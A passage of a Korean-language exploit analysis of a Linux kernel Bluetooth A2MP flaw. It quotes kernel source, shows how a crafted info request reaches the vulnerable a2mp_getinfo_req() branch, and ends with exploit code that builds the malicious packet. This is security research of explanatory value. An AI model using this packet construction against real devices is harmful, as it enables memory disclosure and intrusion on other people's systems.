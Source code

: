 ```c++
	struct a2mp_cmd *hdr;
	struct amp_mgr *mgr = chan->data;
	int err = 0;
	amp_mgr_get(mgr);
	while (skb->len >= sizeof(*hdr)) {
		u16 len;
		hdr = (void *) skb->data;
		// ...
		mgr->ident = hdr->ident;
		switch (hdr->code) {
		case A2MP_COMMAND_REJ:
			a2mp_command_rej(mgr, skb, hdr);
			break;
		case A2MP_DISCOVER_REQ:
			err = a2mp_discover_req(mgr, skb, hdr);
			break;
		case A2MP_CHANGE_NOTIFY:
			err = a2mp_change_notify(mgr, skb, hdr);
			break;
		case A2MP_GETINFO_REQ:
			err = a2mp_getinfo_req(mgr, skb, hdr); // 취약한 함수
			break;
		// ...
  }
	// ...
}
```
switch문을 보면 `hdr->code`가 `A2MP_GET_INFO_REQ`인 경우 취약한 코드가 존재하는 `a2mp_getinfo_req()` 함수를 호출한다. 즉, 취약함 함수로의 흐름을 만들어주기 위해서는 `hdr->code`를 `A2MP_GET_INFO_REQ`로 설정해서 전송하면 된다. 그렇다면 `A2MP_GET_INFO_REQ`는 어떤 값을 가지고 있을까?
```c++
#define A2MP_GETINFO_REQ         0x06
```
헤더파일(`a2mp.h`)을 살펴보면 위와 같이 `0x06`로 매크로가 설정되어있는 것을 확인할 수 있다. 실제 공격시에는 값을 그대로 넣어도 되지만 `blueZ` 라이브러리에 선언되어있는 매크로를 이용하면 된다. 
```c++
#define AMP_INFO_REQ		0x06
```
`blueZ` 라이브러리의 [lib/amp.h](https://github.com/pauloborges/bluez/blob/master/lib/amp.h) 파일에 `A2MP_GET_INFO_REQ`와 동일하게 `0x06` 값을 가지는 `AMP_INFO_REQ`라는 매크로가 존재한다.

## Analysis #4 취약한 로직으로 흐름 제어
`a2mp_getinfo_req()` 함수로 흐름을 변경했다면, 취약한 코드가 존재하는 if문 내로 분기해야한다. 조건은 아래와 같다.
```c++
hdev = hci_dev_get(req->id);
if (!hdev || hdev->dev_type != HCI_AMP)
```
`hci_dev_get()` 함수가 정상적인 데이터를 반환하지 않거나, `hdev->dev_type`이 `HCI_AMP`가 아니면 취약한 코드로 진입할 수 있다. `hci_dev_get()`은 HCI에 접근하는 코드이므로, 인자로 전달하는 HCI ID가 잘못된다면 비정상적인 hdev를 만들어낼 수 있다.

따라서 exploit 코드에서는 공격 시 `hdr->code`에 `AMP_INFO_REQ`를 담아 아래와 같이 공격을 진행했다.
```c++
printf("[*] Sending malicious AMP info request...\n");
struct {
  l2cap_hdr hdr;
  amp_mgr_hdr amp_hdr;
  amp_info_req_parms info_req;
} packet3 = {0};
packet3.hdr.len = htobs(sizeof(packet3) - L2CAP_HDR_SIZE);
packet3.hdr.cid = htobs(AMP_MGR_CID);
packet3.amp_hdr.code = AMP_INFO_REQ; // a2mp_getinfo_req() 로직으로 유도
packet3.amp_hdr.ident = 0x41;
packet3.amp_hdr.len = htobs(sizeof(amp_info_req_parms));
packet3.info_req.id = 0x42; // !hdev 가 참이 되어 if문 내로 분기하도록 유도
```